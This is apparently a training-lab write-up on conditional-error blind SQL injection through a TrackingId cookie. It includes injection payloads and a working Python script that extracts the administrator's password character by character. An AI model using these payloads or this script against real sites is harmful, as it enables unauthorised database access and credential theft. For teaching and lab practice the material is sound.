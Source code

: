 In this lab `Tracking Id` cookie is  vulnerable to `SQL Injection`.

You can check this using the following statements sending them with the value of `tracking id`: 
```sql
' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a   
```
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the CASE expression evaluates to 'a', which does not cause any error. With the second input, it evaluates to 1/0, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

We can systematically determine the password for the  given user `administrator` by sending a series of inputs to test the password one character at a time.
```sql
' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

You can use the following script to find the password:
```python
import sys
import requests
import string 
import time

if len(sys.argv) != 2:
    print(f"USAGE: {sys.argv[0]} <URL of the lab>")
    sys.exit(1)

URL = sys.argv[1]

dic = string.ascii_letters+string.digits
response = requests.get(URL)
tracking_id = response.cookies["TrackingId"]
sess_cookie = response.cookies["session"]

def password(url):
    
    pwd = ""
    i = 1
    while(True):
        found_char = False
        print(f"Index : {i}")
        for d in dic:
            payload = tracking_id + "' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'), "+str(i)+",1) = '"+d+"') THEN to_char(1/0) ELSE 'a' END FROM Dual)='a"
            response = requests.get(URL, headers={"Cookie":"TrackingId="+payload+"; session="+sess_cookie})
            if "Internal Server Error" in response.text:
                pwd += d
                print(pwd)
                found_char = True
                break
            time.sleep(1)
        i+=1
    
        if not found_char:
            print("Password : ",pwd)
            break

password(URL)
```
